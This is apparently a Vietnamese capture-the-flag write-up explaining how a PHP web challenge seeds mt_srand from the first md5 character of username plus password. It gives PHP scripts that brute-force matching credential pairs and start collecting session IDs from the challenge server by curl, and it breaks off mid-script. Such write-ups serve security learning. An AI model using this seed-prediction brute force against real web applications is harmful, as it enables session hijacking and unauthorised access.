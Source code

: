Ok cùng phân tích nè :  
* Web sẽ lấy username và password và nối nó lại sau đó lấy chữ cái đầu của md5 hash của chuỗi đó. 
Ví dụ : 

username = "hatsune" và password = "miku"
=> \$id = "hatsunemiku"
=> md5(\$id) = "3523fe5f96966420a1950e514dcc7413"
=> md5(\$id)[0] = "3"
=> \$SEEDS[md5($id)[0] % (count(\$SEEDS))] sẽ lấy \$SEEDS có index 3 và chuyển sang hex để làm seed của mt_srand

Ok trông thì phức tạp nhưng solution của ta có thể bruteforce như sau. Đầu tiên ta tìm các cặp username và password sao cho md5(\$id)[0] là một con số bằng solve script sau

```php
<?php

function get_user_pass(){
    $chr = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
    $chr = str_split($chr);
    $arr = [];
    foreach ($chr as $i) {
        foreach ($chr as $j) {
            $s = $i . $j;
            if (is_numeric(md5($s)[0])){
                $arr[md5($s)[0]] = [$i, $j];
            }
        }
    }
    return $arr;
}

var_dump(get_user_pass());
?>
```

Ok có thể thấy khi chạy thì ta nhận được mảng có 10 phần tử tương đương md5(\$id)[0] = 0 thì ta có username = "z" và password = "h", v.v.

![image](https://hackmd.io/_uploads/SJ6-7VyYyx.png)

Ok lúc này ta sẽ lấy secure session id của các username và password trên cho việc brute force

```php
<?php

function get_user_pass(){
    $chr = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
    $chr = str_split($chr);
    $arr = [];
    foreach ($chr as $i) {
        foreach ($chr as $j) {
            $s = $i . $j;
            if (is_numeric(md5($s)[0])){
                $arr[md5($s)[0]] = [$i, $j];
            }
        }
    }
    return $arr;
}


function get_session($username, $password){
    $ch = curl_init(); 
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    curl_setopt($ch, CURLOPT_CUSTOMREQUEST, 'POST');
    curl_setopt($ch, CURLOPT_URL, 'http://52.59.124.14:5008/');
```